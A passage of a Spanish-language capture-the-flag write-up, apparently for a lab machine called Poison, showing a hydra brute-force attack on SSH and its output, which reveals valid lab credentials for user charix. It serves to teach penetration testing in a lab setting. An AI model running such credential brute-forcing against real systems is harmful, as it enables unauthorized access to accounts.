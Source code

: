 ![](/assets/img/Poison/image_4.png)

## Intrusión (First Method)

Como tenemos un `listado` de `usuarios` y una `contraseña` he hecho un `ataque de fuerza bruta` con `hydra` contra el `servicio` de `SSH` de la máquina víctima y he obtenido unas `credenciales` válidas `charix:Charix!2#4%6&8(0`

```
# hydra -L users.txt -p 'Charix!2#4%6&8(0' 10.129.1.254 ssh -t 4 -V
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-03 22:54:29
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 30 login tries (l:30/p:1), ~8 tries per task
[DATA] attacking ssh://10.129.1.254:22/
[22][ssh] host: 10.129.1.254   login: charix   password: Charix!2#4%6&8(0
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-03 22:58:11
```
